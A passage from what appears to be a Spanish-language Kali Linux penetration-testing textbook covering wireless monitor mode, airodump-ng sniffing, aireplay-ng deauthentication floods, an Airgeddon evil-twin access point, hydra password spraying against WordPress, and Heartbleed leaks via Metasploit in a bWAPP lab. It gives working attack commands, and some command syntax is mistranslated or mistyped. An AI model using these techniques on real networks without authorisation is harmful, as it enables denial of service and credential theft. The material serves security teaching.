- **El modo de monitorización** permite que un dispositivo transmita paquetes y tramas de monitorización en las frecuencias de IEEE 802.11. Este modo permitiría a un evaluador de penetración no solo monitorear el tráfico, sino también capturar datos y realizar **la inyección de paquetes** mediante un adaptador inalámbrico compatible.

El modo de operación depende de la topología de la red y del rol de su sistema operativo Linux en su red.

Hay dos métodos que podemos utilizar para configurar el adaptador inalámbrico en modo monitor: manualmente y mediante la airmon-ngherramienta.

En la siguiente sección, veremos cómo hacer lo siguiente:

- Habilitar el modo monitor manualmente
- Habilitar el modo monitor usando airmon-ng

Veamos cada uno de estos métodos con más detalle.

## Habilitar el modo monitor manualmente

En esta sección, lo guiaré a través de los pasos que debe seguir para habilitar manualmente el modo de monitor en la NIC inalámbrica de su máquina Kali Linux.

Las siguientes instrucciones lo guiarán a través del proceso de habilitar el modo monitor manualmente en su máquina Kali Linux.

Para comenzar, abra una nueva ventana de Terminal y ejecute los siguientes comandos:

1. Ejecuta el comando `ifconfig` para determinar si el adaptador inalámbrico está conectado y es reconocido por el sistema operativo Kali Linux. Además, tome nota del ID de la interfaz. En la siguiente captura de pantalla, la interfaz es wlan0:



1. Ahora que tenemos el ID de la interfaz, lo utilizamos ifconfig wlan0 downpara desactivarla de forma lógica a través del sistema operativo. Esto es necesario antes de cambiar el modo de cualquier interfaz.
2. Ahora que la interfaz está inactiva, es momento de configurar nuestra wlan0 interfaz para el modo de monitor. El iwconfig wlan0 mode monitorcomando habilitará el modo de monitor. Una vez completado, debemos verificar que el modo se haya cambiado correctamente en la interfaz. Ejecuta el iwconfigcomando. Debería ver que el modo ha cambiado a Monitor, como se muestra en la siguiente captura de pantalla:



1. Por último, necesitamos activar nuestra wlan0interfaz mediante el ifconfig wlan0 upcomando.

Una vez completado este ejercicio, habrá adquirido las habilidades necesarias para habilitar el modo de monitorización en Kali Linux. En la siguiente sección, veremos cómo usar airmon-ng para configurar el adaptador inalámbrico.

## Habilitar el modo monitor usando airmon-ng

airmon-ng es parte del conjunto de herramientas de auditoría de seguridad inalámbrica aircrack-ng. airmon-ng es una herramienta que se utiliza para configurar un adaptador inalámbrico en (y fuera del) modo monitor.

Veamos cómo podemos habilitar y deshabilitar el modo monitor:

1. Para comenzar, abra una nueva ventana de Terminal y ejecute el comando ifconfigo iwconfigpara verificar el estado y la identificación del adaptador inalámbrico:



1. Antes de habilitar el modo de monitor, debemos eliminar todos los procesos en segundo plano que puedan impedir que el adaptador se convierta al modo de monitor. Al usar el airmon-ng check killcomando, la herramienta buscará todos los procesos que puedan impedir que el adaptador se convierta al modo de monitor y los eliminará:



1. A continuación, ejecute airmon-ng start wlan0para habilitar el modo de monitor. Además, se creará una nueva interfaz lógica, como se muestra en la siguiente captura de pantalla:



1. La wlan0moninterfaz se utilizará para monitorear redes IEEE 802.11. Para desactivar el modo de monitoreo, simplemente use el airmon-ng stop wlan0moncomando.


Al completar este ejercicio, ahora puedes habilitar el monitoreo en un adaptador inalámbrico utilizando el método manual y la herramienta airmon-ng.


## Resumen

En este capítulo, analizamos los conceptos y fundamentos de las pruebas de penetración de red y su importancia. Abarcamos información práctica sobre cómo conectar un adaptador inalámbrico a nuestra máquina Kali Linux, analizamos el propósito de una dirección MAC y su composición, y hablamos sobre cómo falsificar nuestra identidad modificándola. Además, analizamos cómo cambiar el modo predeterminado de nuestro adaptador inalámbrico al modo de monitorización, tanto mediante la configuración manual como mediante la herramienta airmon-ng.

Ahora que ha completado este capítulo, ya sabe cómo habilitar correctamente el modo de monitorización mediante la airmon-ngherramienta y de forma manual a través del sistema operativo Kali Linux. Además, ahora puedes realizar la monitorización de redes inalámbricas.

Espero que este capítulo haya sido informativo y pueda ayudarlo y guiarlo en su camino hacia la ciberseguridad. En el próximo capítulo, Capítulo 9, *Pruebas de penetración de red: ataques previos a la conexión*, analizaremos en profundidad las pruebas de penetración de red con algunos ejercicios prácticos.


## Preguntas

Las siguientes son algunas preguntas basadas en los temas que hemos cubierto en este capítulo:

1. ¿Qué herramienta se puede utilizar para cambiar la dirección MAC en Kali Linux?
2. ¿Puedes nombrar los diferentes modos en los que se puede configurar un adaptador inalámbrico para funcionar?
3. ¿Cómo ver la dirección MAC de una interfaz de red?
4. ¿Cómo puedo eliminar cualquier proceso en segundo plano que pueda impedir que el adaptador se convierta al modo monitor?


## Otras lecturas

- Puedes encontrar más detalles sobre el modelo OSI y la pila TCP/IP en la [*Guía de certificación CompTIA Network+*](https://www.packtpub.com/networking-and-servers/comptia-network-certification-guide).
- Para obtener información adicional sobre aircrack-ng y airmon-ng, consulta https://www.aircrack-ng.org/documentation.html .


# Pruebas de penetración de red: ataques previos a la conexión

Muchas organizaciones tienen una red inalámbrica. Imagine obtener acceso a una red inalámbrica corporativa y luego usar la red inalámbrica como medio o canal para ingresar a la red cableada y comprometer otros sistemas y dispositivos. Es esencial comprender las pruebas de penetración inalámbricas para poder identificar las lagunas que permitirían tales violaciones de seguridad. Estas habilidades lo ayudarán como evaluador de penetración, ya que se le solicitará que realice pruebas de seguridad inalámbrica en redes objetivo.

En este capítulo, analizaremos en profundidad las herramientas de piratería inalámbrica, como aircrack-ng. Además, cubriremos los aspectos básicos para comprender cómo funcionan los distintos ataques inalámbricos. Estos ataques incluyen la anulación de la autenticación de los usuarios asociados a un punto de acceso inalámbrico, la creación de un punto de acceso falso y el descifrado de contraseñas.

A lo largo de este capítulo cubriremos los siguientes temas:

- Introducción al rastreo de paquetes con airodump-ng
- Detección selectiva de paquetes mediante airodump-ng
- Desautenticación de clientes en una red inalámbrica
- Creando un AP rebelde/gemelo malvado
- Realizar un ataque de rociado de contraseñas
- Configuración de ataques de abrevadero
- Explotación de cifrado débil para robo de credenciales


## Requerimientos técnicos

Los siguientes son los requisitos técnicos para este capítulo:

- **Kali Linux**: https://www.kali.org/
- **Airgeddon**: https://github.com/v1s1t0r1sh3r3/airgeddon
- **Servidor WordPress**: https://www.turnkeylinux.org/wordpress
- **Caja de abejas**: https://sourceforge.net/projects/bwapp/files/bee-box/


## Introducción al rastreo de paquetes con airodump-ng

Para comenzar con el rastreo de paquetes, vamos a utilizar la airodump-ngherramienta. airodump-ngTiene muchas funcionalidades, entre ellas, la captura en bruto de tramas IEEE 802.11. Además, con esta herramienta podremos visualizar los puntos de acceso inalámbricos, los dispositivos cliente (estaciones) asociados y no asociados, los tipos de cifrado, el SSID, el fabricante de los puntos de acceso, etc.

En el Capítulo 8, *Descripción de las pruebas de penetración de red*, describimos los procedimientos necesarios para conectar un adaptador de red inalámbrica a su máquina Kali Linux y habilitar el modo de monitorización. Para este ejercicio, deberá repetir el proceso una vez más.

Para habilitar el modo monitor, realice los siguientes pasos:

1. Conecta el adaptador inalámbrico a Kali Linux. Utiliza el comando `ifconfig` para verificar el estado del adaptador.
2. Termine cualquier proceso que pueda obstaculizar la habilitación del modo de monitor mediante el airmon-ng check killcomando.
3. Habilite el modo monitor en su adaptador inalámbrico usando el airmon-ng start wlan0comando.

Ahora que su adaptador inalámbrico está en modo de monitor, usemos la airodump-ngherramienta para ver una lista de todos los puntos de acceso y estaciones cercanos. Para realizar esta acción, use el siguiente comando:

```markup
Airodump-ng wlan0mon (en inglés)

```

La ventana de tu Terminal ahora comenzará a mostrar todos los AP cercanos, mostrando la siguiente información:

- BSSID:Esta es la dirección MAC del AP o enrutador inalámbrico.
- PWR: Esta es la potencia nominal. Cuanto menor sea la potencia nominal, más lejos estará el punto de acceso del adaptador inalámbrico.
- Beacons:Las balizas son los anuncios que se envían desde un punto de acceso. Las balizas suelen contener información sobre el punto de acceso, como el nombre de la red y su funcionamiento.
- \#Data: Esta es la cantidad de paquetes de datos capturados por red.
- \#/s:Este campo indica la cantidad de paquetes por segundo durante un período de 10 segundos.
- CH: Este es el canal operativo del AP.
- MB:Este campo describe la velocidad máxima admitida por el AP.
- ENC:Esto determina el código de cifrado que se utiliza en la red inalámbrica.
- AUTH:Esto determina el tipo de protocolo de autenticación en la red inalámbrica.
- ESSID:El **Identificador de conjunto de servicios extendidos** (**ESSID**) y el nombre del SSID de la red son los mismos.
- STATION:Esto muestra las direcciones MAC de los dispositivos asociados y no asociados.

Al ejecutar el comando, su adaptador inalámbrico escaneará y monitoreará en vivo todas las redes inalámbricas y los dispositivos cercanos. Debería recibir una captura de pantalla similar a la siguiente:



Dependiendo de su ubicación geográfica, los dispositivos y redes enumerados siempre variarán.

Ver el tráfico de la red en tiempo real puede resultar abrumador, especialmente en nuestra situación en la que podemos ver todos los dispositivos cercanos. La herramienta airodump-ng nos permite usar el parámetro `--bssid` para filtrar la salida de un AP específico. Además, el uso del parámetro `-c` nos permite especificar un canal en el que está operando el AP. Utiliza la siguiente sintaxis:

```markup
airodump-ng --bissid <bssid value> -c <channel number> wlan0mon

```

Obtendrá un resultado similar al siguiente, donde se mostrarán los detalles específicos sobre su red inalámbrica de destino:



Ahora que puedes realizar el rastreo de paquetes, intentemos dirigir nuestro ataque a un objetivo específico en la siguiente sección.


## Detección selectiva de paquetes mediante airodump-ng

En esta sección, aprenderemos sobre las características adicionales de airodump-ng. Lo más importante es que usaremos airodump-ng para atacar una red específica; esto nos permitirá enfocar nuestro ataque en un **objetivo** **específico** y no causar ningún daño a otras redes inalámbricas cercanas.

Aunque esté filtrando su vista, el tráfico (paquetes) no se guarda sin conexión para su posterior análisis. El uso del -wparámetro le permitirá especificar la ubicación del archivo donde guardar el contenido. Por lo tanto, el siguiente comando le ayudará a lograr esta tarea:

```markup
airodump-ng --bissid <bssid value> -c <channel number> wlan0mon -w /root/capture

```

Al utilizar el comando `ls -l` en tu Terminal, verás que los datos se han escrito sin conexión en el directorio root:



airodump-ng generalmente escribe los datos capturados en cinco tipos de archivos; estos son los formatos .cap, .csv, .kistmet.csv, .kismet.netxmly .log.csv.

Cuanto más tiempo deje la airodump-ngherramienta en funcionamiento, más paquetes se escribirán en los archivos sin conexión y, finalmente, se capturará el protocolo de enlace WPA/WPA2 entre los clientes y el punto de acceso de destino. Durante el rastreo de paquetes con Airodump-ng, verá aparecer un mensaje **de protocolo de enlace WPA** en la esquina superior derecha; esto es una indicación de que airodump-ng ha capturado el protocolo de enlace WPA/WPA2. Capturar el protocolo de enlace WPA/WPA2 nos ayudará a descifrar la contraseña de la red inalámbrica de destino.

En la siguiente sección, intentaremos desautenticar a los usuarios de una red inalámbrica.


## Desautenticación de clientes en una red inalámbrica

Cada vez que un dispositivo cliente, como una computadora portátil o un teléfono inteligente, intenta crear una asociación con una red inalámbrica protegida por contraseña, el usuario deberá proporcionar la contraseña correcta. Si el usuario proporciona la contraseña correcta, el dispositivo se autenticará en la red y podrá acceder a todos los recursos disponibles.

En un ataque de desautenticación, el atacante, o el evaluador de penetración, intenta desconectar (expulsar) todos los dispositivos asociados de un punto de acceso inalámbrico. Este ataque se ejecuta cuando la máquina del atacante no está conectada (asociada) de ninguna manera al punto de acceso inalámbrico o la red de destino.

Para que la máquina atacante envíe una trama de desautenticación al punto de acceso inalámbrico, se inserta un código de motivo dentro del cuerpo de la trama. Los códigos se utilizan para informar al punto de acceso o enrutador inalámbrico sobre un cambio en la red. El código de motivo indicará uno de los siguientes:

- **Código 2**: La autenticación anterior ya no es válida
- **Código 3**: Salida de desautenticación

Esto creará el efecto de que cada cliente se desautentica del punto de acceso objetivo. A continuación, se muestra una ilustración del ataque a una red:



Para lanzar un ataque de desautenticación, realice los siguientes pasos:

1. Habilite el modo monitor en su adaptador inalámbrico.
2. Utiliza el airodump-ng wlan0moncomando para descubrir la dirección BSSID de su objetivo. El BSSID se utilizará para lanzar nuestro ataque específicamente hacia un punto de acceso en particular.
3. Una vez que se haya descubierto el AP de destino, tome nota de su BSSID y canal operativo y luego finalice el escaneo de los AP cercanos utilizando *Ctrl* + *C.*
4. Limite el alcance de la monitorización inalámbrica al punto de acceso objetivo específico simplemente utilizando la siguiente sintaxis: airodump-ng --bssid <bssid value> -c <channel #> wlan0mon. Esta ventana de terminal actual se utilizará para monitorear el progreso de nuestro ataque.
5. Abra una nueva ventana de terminal. Esta ventana se utilizará para iniciar el ataque con la aireplay-ngherramienta. El aireplay-ng -0 0 -a <BSSID> wlan0moncomando enviará un flujo continuo de tramas de desautenticación al punto de acceso de destino.

Los resultados deberían ser similares a la siguiente captura de pantalla:



En la captura de pantalla, podemos ver que aireplay-ngse está enviando un flujo continuo de marcos de desautenticación a nuestro punto de acceso de destino.

Durante el ataque, vuelva a la primera ventana de la Terminal donde está monitoreando su red objetivo. Pronto, verá que los clientes (estaciones) se están desconectando y, finalmente, se capturará el protocolo de enlace WPA/WPA2 . Notará en su Terminal con airodump-ng que el valor del protocolo de enlace WPA aparecerá en la esquina superior derecha de la ventana. Esto es una indicación de que se ha capturado el protocolo de enlace WPA/WPA2. En el próximo capítulo, realizaremos el descifrado de contraseñas en una red inalámbrica.

También puedes utilizar herramientas como **Hashcat** ( https://hashcat.net/hashcat/ ) y **John the Ripper** ( https://www.openwall.com/john/ ) para descifrar contraseñas.

Además, si desea desautenticar un cliente (estación) específico de un AP, el siguiente comando permitirá esta acción:

```markup
aireplay-ng -0 0 -a <target's bssid> -c <client's mac addr> wlan0mon

```

A continuación se presentan descripciones de cada parámetro que utilizamos:

- -0:Esto indica que se trata de un ataque de desautenticación.
- 0: Esto especifica la cantidad de cuadros que se inyectarán. Si se usa, 0se creará un ataque continuo; si se especifica 2, solo se inyectarán dos cuadros de desautenticación.
- -c: Esto le permite especificar la dirección MAC del cliente.

En la siguiente sección, crearemos un honeypot utilizando Kali Linux y varias herramientas inalámbricas.


## Creando un AP rebelde/gemelo malvado

Como futuro evaluador de penetración o hacker ético, es posible que se le asigne la tarea de realizar pruebas exhaustivas de seguridad inalámbrica para su empresa o la organización de un cliente. La creación de un punto de acceso no autorizado con un SSID (nombre de red inalámbrica) interesante, como VIP_WiFio Company-name_VIP, atraerá a los empleados para que establezcan una conexión.

Al crear un punto de acceso no autorizado, el objetivo es capturar las credenciales de usuario y la información confidencial, y detectar cualquier cliente inalámbrico vulnerable en una organización. A continuación, se ofrecen algunos consejos que se deben tener en cuenta al implementar un punto de acceso no autorizado:

- Elija una ubicación adecuada para garantizar que haya la máxima cobertura para las víctimas potenciales.
- Desautenticar a los clientes del AP real, lo que hace que creen una asociación con el AP fraudulento.
- Cree un portal cautivo para capturar las credenciales de los usuarios.

Para comenzar, vamos a utilizar **Airgeddon** . Esta herramienta contiene muchas características y funciones que nos ayudarán, desde recopilar información sobre una red inalámbrica de destino y sus clientes hasta lanzar varios tipos de ataques y atraer a los usuarios para que se asocien con nuestro punto de acceso no autorizado.

Para comenzar a crear un punto de acceso falso, siga estos pasos:

1. Descargue Airgeddon desde su repositorio de GitHub y otorgue al airgeddon.shscript permisos de ejecución en su cuenta de usuario. Utiliza los siguientes comandos:

```markup
git clone https://github.com/v1s1t0r1sh3r3/airgeddon.git 
cd airgeddon 
chmod +x airgeddon.sh

```

1. En la ventana de la terminal, utiliza el ./airgeddon.shcomando para iniciar la interfaz de Airgeddon. Una vez que se haya iniciado el script, Airgeddon comenzará a verificar los requisitos esenciales de hardware y software en su máquina Kali Linux.

1. Presione *Enter* varias veces hasta llegar al mensaje de selección de interfaz; asegúrate de seleccionar su adaptador inalámbrico, como se muestra en la siguiente captura de pantalla:


Seleccione la opción 2que tiene la interfaz wlan0 y presione *Enter* .

Si Airgeddon ha indicado que falta alguna herramienta, asegúrate de instalarla antes de continuar.

1. Ahora verás el panel principal de Airgeddon. Aquí puedes elegir entre cambiar entre el modo de monitorización o el modo administrado en tu adaptador inalámbrico. Podrás lanzar varios tipos de ataques, como ataques **de denegación de servicio** (**DoS**), intentar descifrar contraseñas inalámbricas, capturar y descifrar protocolos de enlace inalámbricos, realizar un ataque gemelo malvado o crear un punto de acceso no autorizado:


Para nuestro ataque, vamos a crear un honeypot para atraer a las víctimas a que se conecten a nuestro AP falso para interceptar, redirigir y capturar información confidencial.

1. A continuación, configure su adaptador inalámbrico en modo monitor. Puedes hacerlo dentro del menú Airgeddon utilizando la opción **Poner interfaz en modo monitor** . Una vez completado, debería ver que el estado de su adaptador inalámbrico ahora cambió al modo **Monitor**, como se muestra en la siguiente captura de pantalla:



1. Selecciona la opción de menú Ataques de Evil Twin y pulsa *Enter* . Se te mostrarán las siguientes opciones:



Airgeddon no solo nos permite configurar fácilmente un AP malicioso o un gemelo malvado, sino que también nos proporciona características adicionales, como rastrear el tráfico de la víctima, realizar la eliminación de SSL de cualquier conexión SSL/TLS, realizar la explotación del navegador e incluso crear un portal cautivo para recopilar credenciales de usuario.

1. Primero, busquemos un objetivo. Elija una opción 4y presione *Enter* . Se abrirá una ventana emergente de Terminal que mostrará todos los puntos de acceso cercanos. Cuando esté listo para elegir un objetivo, elija la ventana de escaneo:



1. Elige tu punto de acceso de destino y pulsa *Enter* para continuar. En este punto, hemos configurado nuestro adaptador inalámbrico en modo Monitor y hemos elegido nuestro objetivo:



1. Vamos a realizar un ataque gemelo malvado con olfateo. Elige la opción 6y pulsa *Enter* . Aparecerá el siguiente menú:



1. Seleccione la opción 2para realizar un ataque de desautenticación a la red inalámbrica de destino; esto obligará a los clientes de la red real a desconectarse (desautenticarse) e intentarán conectarse a nuestro AP/gemelo malvado. Airgeddon le pedirá que elija una interfaz física que esté conectada a Internet/red física. El propósito es brindar la ilusión de conectividad de red normal a las víctimas. Cuando estén conectados y accedan a los recursos locales, las víctimas pensarán que se trata de la red legítima:



1. Seleccione la interfaz adecuada y presione *Enter* para continuar; presione *Enter* una vez más para verificar la interfaz seleccionada.

Elija la opción de falsificar su dirección MAC para cambiar su identidad.

1. Cuando esté listo, inicie el ataque. Airgeddon abrirá algunas ventanas de terminal más pequeñas que mostrarán el estado de cada ataque que esté realizando, como se muestra en la siguiente captura de pantalla:



Una vez que se conecta un cliente, la ventana de terminal correspondiente le proporcionará una actualización. Con solo unos pocos pasos, ahora tiene su propio AP/gemelo malvado.

En la siguiente sección, discutiremos y demostraremos cómo rociar contraseñas en un sistema de destino.


## Realizar un ataque de rociado de contraseñas

El ataque de rociado de contraseñas (a veces denominado ataque de fuerza bruta inversa) es una técnica mediante la cual se realizan múltiples intentos de inicio de sesión utilizando uno o más nombres de usuario válidos y una lista de palabras que contiene varias posibilidades de contraseña. El objetivo de realizar un ataque de rociado de contraseñas es obtener un conjunto de credenciales de usuario válidas.

Para realizar un ataque de rociado de contraseñas, vamos a utilizar nuestro servidor WordPress existente como nuestro objetivo **Burp Suite** para obtener el campo de entrada de nombre de usuario y contraseña en una página web, y hydrarealizar nuestro ataque de rociado de contraseñas para encontrar credenciales de usuario válidas.

Para comenzar, utiliza las siguientes instrucciones:

1. Configura tu navegador web para utilizar la configuración de proxy de Burp Suite. Una vez que lo hayas hecho, abre Burp Suite y activa el modo Intercept .

2. A continuación, en su navegador web, acceda al portal de inicio de sesión de WordPress. La URL debe ser http://<server address>/wp-login.php. Tenga en cuenta que no debe intentar realizar ningún ataque a ningún dispositivo o red en los que no haya obtenido el permiso legal de las autoridades correspondientes. Las tareas que se realizan en esta sección se llevan a cabo en un entorno de laboratorio únicamente con fines educativos.

3. Ingrese las siguientes credenciales de usuario en los campos de nombre de usuario y contraseña y presione 

   Enter

    para enviar una solicitud de inicio de sesión:

   - uname
   - pass

4. Regrese a Burp Suite. En la pestaña Proxy | Interceptar, presione el botón Reenviar varias veces hasta que vea un POSTmensaje HTTP en la subpestaña **Sin formato, como se muestra en la siguiente captura de pantalla:**



1. Dentro del POSTmensaje, tome nota del directorio ( /wp-login.php) en la primera línea y el campo de nombre de usuario/contraseña.
2. Asegúrate de registrar el mensaje de error de inicio de sesión en la página web, ya que será necesario en los pasos posteriores:



En nuestro ejercicio, se han creado dos listas de palabras personalizadas: la primera lista de palabras contiene una lista de posibles nombres de usuario y la segunda contiene una lista de posibles contraseñas. Si utiliza la hydraherramienta en Kali Linux, podrá realizar un ataque **de rociado de contraseñas** en el servidor WordPress de destino.

1. Usando hydra, podemos tener la siguiente sintaxis:

```markup
hydra -L <username list> -p <password list> <IP Address> <form parameters><failed login message>

```

1. Sustituyendo cada valor en la sintaxis, obtenemos el siguiente comando:

```markup
hydra -L usernames.txt -P custom_list.txt 10.10.10.22 http-form-post "/wp-login. php: log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.10.22%2Fwp-admin% 2F&testcookie=l: Invalid username" -V

```

1. Reemplazando unamey ^USER^por pass, ^PASS^podemos saber hydraque estos son los campos de nombre de usuario y contraseña. Además, –Vse especifica que se produzca una salida detallada en la ventana de la Terminal.
2. Después de ejecutar el comando, el siguiente es un ejemplo del resultado esperado. Las filas que comienzan con [80] [http-post-form]proporcionan un posible nombre de usuario y contraseña válidos para el destino, como se muestra en la siguiente captura de pantalla:



Asegúrate de comprobar cada nombre de usuario y contraseña para verificar su autenticidad en el sistema de destino. Enviar nombres de usuario y contraseñas rápidamente a un sistema de destino puede provocar un bloqueo y detener el ataque de nuestro lado. Para crear un período de espera de 10 segundos entre intentos, utiliza los parámetros `-w 10`. Esto es opcional; sin embargo, puede reducir las posibilidades de que el objetivo lo bloquee.

En la siguiente sección, cubriremos los aspectos esenciales de un ataque de abrevadero.


## Configuración de ataques de abrevadero

En el campo de la seguridad informática, es muy importante conocer los distintos tipos de ataques y amenazas. Algunos de estos ataques tienen nombres muy inusuales y, en esta sección, cubriremos los aspectos básicos de un **ataque de tipo watering hole** .

Imaginemos que usted es el administrador o ingeniero de seguridad informática de una empresa. Ha implementado los mejores dispositivos de seguridad de la industria para detectar y prevenir de forma proactiva cualquier tipo de amenaza, ya sea interna o externa. También ha implementado las mejores prácticas de la industria, ha respetado los estándares y se ha asegurado de que sus usuarios (empleados de la organización) reciban capacitación frecuente en prácticas de seguridad para usuarios. Ha construido una fortaleza de seguridad dentro de la organización y se ha asegurado de que el perímetro de la red también esté en guardia ante amenazas nuevas y emergentes.

Los atacantes notarían que no pueden penetrar en su red, e incluso las técnicas de ingeniería social, como los correos electrónicos de phishing, no tendrían éxito contra su organización. Esto crearía un gran desafío para comprometer la organización (objetivo), ya que está muy bien protegida. Un método para hacerlo es realizar un ataque de abrevadero.

Imaginemos que, durante la pausa del almuerzo, algunos empleados visitan una cafetería cercana para tomar una bebida caliente o fría. Los piratas informáticos podrían estar monitoreando los movimientos de los empleados de una organización; por ejemplo, si visitan lugares que contienen Wi-Fi público con bastante frecuencia durante sus descansos o incluso después del trabajo. Supongamos que hay un grupo de empleados que frecuentan la cafetería local. El atacante puede comprometer la red Wi-Fi de la cafetería e instalar una carga útil que se descarga en cualquier dispositivo conectado a la red y se ejecuta en segundo plano.

Al comprometer la red wifi de la cafetería, el ataque envenena el lugar que todos, incluidos los empleados de la organización objetivo, utilizan mientras disfrutan de sus bebidas. Imaginemos que el teléfono inteligente de Alice está comprometido en la cafetería; ella lo lleva de vuelta a la organización y se conecta a la red (wifi) interna. En este punto, el ataque se está generando desde el interior y puede comprometer los segmentos restantes de la red, o incluso intentar crear una puerta trasera en la organización objetivo.

Existen muchos otros métodos para crear un ataque de tipo watering hole; este fue solo un ejemplo. Otro ejemplo sería comprometer un sitio web legítimo que muchos usuarios visitan a menudo e instalar malware en los sistemas de las posibles víctimas. Cuando los sistemas están infectados con malware, la carga útil puede apuntar a otros sitios web o redes.

En la siguiente sección, discutiremos y demostraremos cómo se pueden robar credenciales de sistemas que utilizan sistemas de cifrado débiles.


## Explotación de cifrado débil para robar credenciales

El cifrado desempeña un papel fundamental en nuestra vida diaria: ya sea que estemos revisando nuestro correo electrónico mientras estamos en movimiento, navegando por nuestro sitio web favorito o simplemente enviando un mensaje a un amigo, el cifrado de datos nos proporciona un nivel aceptable de privacidad frente a miradas indiscretas. Muy a menudo, los profesionales de TI no siempre controlan sus niveles de cumplimiento en lo que respecta al mantenimiento de técnicas de cifrado para proteger los datos en un sistema. Esto lleva a que un usuario malintencionado o un pirata informático ponga en peligro un sistema vulnerable para recuperar datos confidenciales debido a prácticas de cifrado deficientes.

En este ejercicio, intentaremos descubrir una de las vulnerabilidades más comunes en el cifrado de un objetivo. Una vez que la encontremos, explotaremos la vulnerabilidad de cifrado débil.

Para comenzar, realice los siguientes pasos:

1. Descargue y configure la máquina virtual **Bee-Box**. El archivo Bee-Box se puede encontrar en https://sourceforge.net/projects/bwapp/files/bee-box/ .
2. Una vez instalado, abra el navegador web en su Kali Linux (máquina atacante), ingrese la dirección IP de bee-box y presione *Enter* .
3. Aparecerá la siguiente pantalla. Haz clic en el enlace **bWAPP**, como se muestra en la siguiente captura de pantalla:



4. Encontrará un portal de inicio de sesión. Introduzca el nombre de usuario beey la contraseña bugpara iniciar sesión:



5. En la esquina superior izquierda de la pantalla, utiliza el menú desplegable y selecciona Vulnerabilidad Heartbleed . Luego, haz clic en Hackear para cargar la vulnerabilidad en la máquina virtual de destino:



6. A continuación, se le presentará la siguiente pantalla:



7. En su máquina Kali Linux, ingrese la nueva URL con el número de puerto 8443en la barra de direcciones y presione *Enter* . La nueva URL debería ser https://10.10.10.131:8443. Asegúrate de iniciar sesión nuevamente en la aplicación bWAPP con las credenciales proporcionadas en *el Paso 4* .
8. Con Nmap, podemos realizar un análisis de vulnerabilidades para determinar si existe una vulnerabilidad Heartbleed en un objetivo. Para realizar esta tarea, utiliza el siguiente comando:

```markup
nmap -p 8443 -script ssl-heartbleed <target IP address>

```

Si la vulnerabilidad existe en el objetivo, Nmap nos presentará la siguiente pantalla:



9. Ahora que estamos seguros de que la vulnerabilidad Heartbleed existe en nuestro objetivo, es hora de usar Metasploit para realizar un poco de explotación. Dentro de Metasploit, usemos el searchcomando para ayudarnos a encontrar un módulo adecuado:



10. La búsqueda arrojó dos módulos disponibles. Usaremos el auxiliary/scanner/ssl/openssl_heartbleedmódulo. Además, estableceremos RHOSTScomo la dirección IP del objetivo y RPORTScomo 8443, tal como se especifica en la sugerencia de la interfaz bWAPP. El siguiente fragmento muestra las configuraciones:



Al iniciar el módulo, observará que los datos se filtran en la siguiente pantalla:



Si examinamos detenidamente el resultado, podemos ver que el exploit ha devuelto la Printable info leakedsección, seguida de información de sesión HTTP en texto sin formato; la máquina de destino respondió con una fuga de datos. Si no se encontró ninguna fuga, la máquina de destino no devolverá ningún dato a nuestra interfaz de Metasploit. De forma predeterminada, se ha extraído un volcado de los datos y se ha almacenado en la /root/.msf4/loot/…ubicación de su máquina Kali Linux.

1. Al usar el comando `show info`, verás las acciones disponibles para realizar en el módulo `openssl_heartbleed`, como se muestra en la siguiente captura de pantalla:



Estas acciones se pueden cambiar utilizando los siguientes comandos:

- set action DUMP
- set action KEYS
- set action SCAN

El siguiente es el contenido del archivo después de utilizar .binun comando:set action DUMP



Además, cuanto más personas accedan actualmente a la aplicación vulnerable, mayor será la posibilidad de recopilar más información confidencial, como credenciales de inicio de sesión. Sin embargo, en nuestro ejercicio, pude capturar los datos de las cookies.


## Resumen

Durante este capítulo, aprendió a realizar el rastreo de paquetes inalámbricos, se familiarizó con los conceptos básicos del rastreo de paquetes y el rastreo de paquetes dirigido mediante aircrack-ng. Además, aprendió las habilidades esenciales necesarias para realizar un ataque de desautenticación en un punto de acceso inalámbrico de destino durante la sección *Desautenticación de clientes en una red inalámbrica* .

En la sección *Creación de un punto de acceso malicioso/gemelo malvado*, aprendiste a usar Airgeddon para encadenar varios ataques y crear un punto de acceso malicioso/gemelo malvado. Además, la sección sobre la pulverización de contraseñas proporcionó las habilidades necesarias para obtener acceso a un sistema remoto y, al mismo tiempo, adquirir las habilidades para explotar sistemas que utilizan un cifrado débil.

En el próximo capítulo, Capítulo 10, *Pruebas de penetración de red: obtención de acceso*, cubriremos la penetración de red con mayor detalle.


## Preguntas

1. ¿Qué herramienta puede habilitar el modo monitor para tu adaptador de red inalámbrica?
2. ¿Cuál es otro nombre para el SSID?
3. Durante un ataque de desautenticación, ¿qué códigos se utilizan para desconectar a los clientes?
4. ¿Qué herramienta se utiliza para realizar la desautenticación?


## Otras lecturas

A continuación se presentan algunos recursos de lectura adicionales:

- **Ataques de desautenticación**: https://www.aircrack-ng.org/doku.php?id=deauthentication
- **Mecanismos de protección WLAN comunes y sus fallas**: https://hub.packtpub.com/common-wlan-protection-mechanisms-and-their-flaws/
- **Detección inalámbrica avanzada**: https://hub.packtpub.com/advanced-wireless-sniffing/


# Pruebas de penetración de red: cómo obtener acceso

Obtener acceso a un sistema y a una red es una de las fases más críticas durante una prueba de penetración. Esta fase pone a prueba tanto las habilidades del evaluador de penetración como los controles de seguridad del sistema y la red de destino. El evaluador de penetración debe pensar siempre en todas las formas posibles de entrar en el objetivo aprovechando diversas fallas de seguridad.

Si no obtiene acceso a una red corporativa, no podrá realizar ningún tipo de penetración en la red ni extraer datos. **El objetivo de una prueba de penetración es simular ataques reales que un pirata informático con intenciones maliciosas llevaría a cabo**. Esto significa obtener acceso no autorizado a una red corporativa y comprometer los sistemas.

Como futuro profesional de ciberseguridad o evaluador de intrusiones, aprenderá a poner en riesgo las redes inalámbricas, explotar los sistemas operativos Linux y Windows, aprovechar los servicios de acceso remoto y recuperar las credenciales de las cuentas de usuario para obtener acceso a un sistema y una red. Además, aprenderá sobre diversas contramedidas para proteger una red inalámbrica de las amenazas cibernéticas.

En este capítulo cubriremos los siguientes temas:

- Ganando acceso
- **Cracking de la privacidad equivalente a cableado** (**WEP**)
- **Cracking de acceso protegido Wi-Fi** (**WPA**)
- Cómo proteger su red inalámbrica
- Configuración de los parámetros de seguridad inalámbrica
- Explotación de sistemas perimetrales vulnerables
- Pruebas de penetración de sistemas de acceso remoto basados en Citrix y **el Protocolo de escritorio remoto** (**RDP**)
- Cajas PWN y otras herramientas
- Cómo eludir **el control de acceso a la red** (**NAC**)


## Requerimientos técnicos

